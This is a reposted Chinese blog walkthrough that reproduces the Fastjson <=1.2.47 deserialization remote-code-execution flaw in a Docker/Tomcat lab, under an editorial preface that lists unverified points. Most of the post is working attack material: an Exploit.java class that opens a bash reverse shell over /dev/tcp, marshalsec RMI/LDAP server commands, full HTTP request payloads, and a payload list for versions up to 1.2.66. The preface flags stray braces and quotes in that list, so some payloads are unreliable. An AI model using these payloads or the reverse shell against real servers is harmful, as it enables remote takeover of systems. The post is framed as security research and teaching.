## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=1.2.47; Vulhub exact path, optional gated Tomcat lab; JDK patch level absent

代码与实验材料：LDAP/RMI full HTTP variants and Exploit class; Content-Type omitted; secondary older-version matrix lacks gadget/AutoType prerequisites

来源证据范围：Original WeChat, Vulhub, c0ny1 repo and research links

- **事实待核（1）**：Frontmatter selects wrong appendix version。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（2）**：JDK limits framed as attacker server environment rather than vulnerable process; escaped braces and trailing quotes in appendix。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Fastjson1-2-47 反序列化漏洞复现

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/DULDnKo4mD3ZEKWZm7ZIkg)


一、漏洞描述

Fastjson 是阿里巴巴公司开源的一款 json 解析器，其性能优越，被广泛应用于各大厂商的 Java 项目中。Fastjson 提供了 autotype 功能，允许用户在反序列化数据中通过 “@type” 指定反序列化的类型，其次，Fastjson 自定义的反序列化机制时会调用指定类中的 setter 方法及部分 getter 方法，那么当组件开启了 autotype 功能并且反序列化不可信数据时，攻击者可以构造数据，使目标应用的代码执行流程进入特定类的特定 setter 或者 getter 方法中，若指定类的指定方法中有可被恶意利用的逻辑（也就是通常所指的“Gadget”），则会造成一些严重的安全问题。并且在 Fastjson 1.2.47 及以下版本中，利用其缓存机制可实现对未开启 autotype 功能的绕过。

二、影响版本

Fastjson1.2.47 以及之前的版本

三、实验环境

docker

```
https://github.com/vulhub/vulhub/tree/master/fastjson/1.2.47-rce
docker-compose up -d
```

Tomcat 搭建（公众号后台回复 “Fastjson” 获取环境和 EXP）

位置 tomcat/webapps 下面



启动 tomcat





四、漏洞复现  

将下面 exp 保存为 Exploit.java 文件

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        //Process p = Runtime.getRuntime().exec(new String[]{"cmd","/c","calc.exe"});
      Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/XX.XX.XX.XX/34567;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));

        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }

        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}
```

```
javac Exploit.java  编译生成Exploit.class文件
```

python 启动 web 服务

```
python -m SimpleHTTPServer  1111
```


通过 python 启动 exphttp 服务启动 ldap 服务 (RMI 服务)

本次复现使用 ldap 服务，同时也将 RMI 对应的操作也做了截图整理，主要是的原因的 RMI 的 JDk 版本支持，LDAPJava 的版本本环境的支持（注意 JDK 的版本，这个是可能成功与否的关键）。

不支持基本上，rmi 服务接受到了请求，直接就 close 掉了。注意这个细节点


```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.RMIRefServer  http://XX.XX.XX.XX:1111/\#Exploit 9999
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer  http://XX.XX.XX.XX:1111/\#Exploit 9999
```


ldap 抓包访问修改数据包  



```
POST /fastjson-1.2.47/ HTTP/1.1
Host: 192.168.0.104:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3494.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 275

{
    "a": {
        "@type": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "ldap://192.168.0.104:9999/Exploit", 
        "autoCommit": true
    }
}
```

rmi 整理  



```
POST /fastjson-1.2.47/ HTTP/1.1
Host: 192.168.0.104:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3494.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 274


{
    "a": {
        "@type": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "rmi://192.168.0.104:9999/Exploit", 
        "autoCommit": true
    }
}
```

执行发送 exp.class  



rmi 整理



监听反弹 shell



获取到 shell

idea 去调试启动计算器  





各版本的 EXP：  

```
fastjson<=1.2.24
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://x.x.x.x:1099/exp", "autoCommit":true}

fastjson<=1.2.41
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://x.x.x.x:1099/exp", "autoCommit":true}

fastjson<=1.2.42
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://x.x.x.x:1099/exp", "autoCommit":true}

fastjson<=1.2.43
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"dataSourceName":"ldap://x.x.x.x:1099/exp", "autoCommit":true}

fastjson<=1.2.45
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://x.x.x.x:1099/exp"\}\}

fastjson<=1.2.47
{
    "a": {
        "@type": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "rmi://x.x.x.x:1099/exp", 
        "autoCommit": true
    }
}

fastjson<=1.2.62
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://x.x.x.x:1099/exp"}";

fastjson<=1.2.66

{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://x.x.x.x:1099/calc"} 
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://x.x.x.x:1099/calc"} 
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://x.x.x.x:1099/calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://x.x.x.x:1099/calc"\}\}
```

四、漏洞修复：

将 Fastjson 升级到最新版本

https://github.com/alibaba/fastjson

注意：Rmi 和 Ldap 启动的 Java 环境的版本（启动服务之前用 java -version 查看自己的 jdk 版本是否低于以下 jdk 版本）



参考：

https://cloud.tencent.com/developer/article/1553664

https://github.com/c0ny1/FastjsonExploit

https://mp.weixin.qq.com/s/i7-g89BJHIYTwaJbLuGZcQ

https://www.cnblogs.com/zhengjim/p/11433926.html

后台回复 “Fastjson” 获取环境和 EXP

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

如果本文内容侵权或者对贵公司业务或者其他有影响，请联系作者删除。  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！


个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld


欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
